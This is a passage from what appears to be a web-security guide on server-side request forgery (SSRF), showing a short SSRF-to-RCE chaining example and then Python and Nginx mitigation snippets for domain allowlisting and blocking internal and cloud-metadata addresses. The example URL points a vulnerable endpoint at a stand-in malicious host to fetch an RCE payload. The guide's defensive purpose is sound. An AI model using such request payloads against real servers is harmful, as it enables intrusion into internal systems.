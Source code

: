 - ### Combining with SSRF to RCE
By chaining SSRF with Remote Code Execution (RCE) vulnerabilities, attackers can execute arbitrary code on the server. An example could be:
```text
http://example.com/ssrf.php?url=http://malicious.com/rce_payload
```

## Mitigation of SSRF

- ### 1️⃣ Implement URL Allowlist (Deny All by Default)
✅ Solution:

Only allow trusted domains for outgoing requests.
Block requests to internal/private IP addresses (127.0.0.1, 169.254.169.254).
🔹 Example (Allowlisting URLs in Python Flask)
```text
ALLOWED_DOMAINS = ["api.example.com", "secure.example.com"]

def is_valid_url(url):
    parsed_url = urlparse(url)
    return parsed_url.hostname in ALLOWED_DOMAINS

if not is_valid_url(user_input_url):
    raise ValueError("Invalid URL")
```
🔹 Example (Allowlisting in Nginx)
```text
location /proxy {
    if ($http_host !~* ^(api\.example\.com|secure\.example\.com)$) {
        return 403;
    }
}
```

-  ### 2️⃣ Block Requests to Internal IP Addresses
✅ Solution:

Reject requests to private/internal networks (10.0.0.0/8, 192.168.0.0/16).
Prevent access to metadata services (169.254.169.254).
🔹 Example (Blocking Private IPs in Python)
```text
import ipaddress
from urllib.parse import urlparse

def is_private_ip(url):
    try:
        ip = ipaddress.ip_address(urlparse(url).hostname)
        return ip.is_private
    except ValueError:
        return False

if is_private_ip(user_input_url):
    raise ValueError("Blocked private IP request")
```
🔹 Example (Blocking Private IPs in Nginx)
```text
if ($http_host ~* "169.254.169.254|localhost|127.0.0.1|internal") {
    return 403;
}
```
- ### 3️⃣ Disable Unnecessary URL Fetching Features
✅ Solution:
